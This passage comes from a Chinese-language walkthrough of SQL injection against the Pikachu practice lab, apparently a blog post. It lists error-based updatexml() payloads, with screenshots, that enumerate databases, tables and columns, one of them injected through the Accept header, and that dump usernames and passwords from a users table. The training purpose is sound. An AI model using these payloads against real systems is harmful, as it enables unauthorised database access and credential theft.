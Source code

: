 ![61](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144502.png)



查询指定数据库表名

```
 ' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),2)or '
```

![62](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144505.png)



查询指定表下的字段名

```
' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),2)or '
```

![63](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144507.png)





查询指定表下的所有数据

```
 ' or updatexml(1,concat(0x7e,(select group_concat(id,username,password,level) from users),0x7e),2)or '
或者
' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),1)or'
```

![64](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144509.png)



#### Accept处注入

查询数据库名

```
' or updatexml(1,concat(0x7e,(select database())),1)or'
```

![65](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144512.png)



查询所有数据库

```
 ' or updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),2)or '
```

![66](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507144515.png)
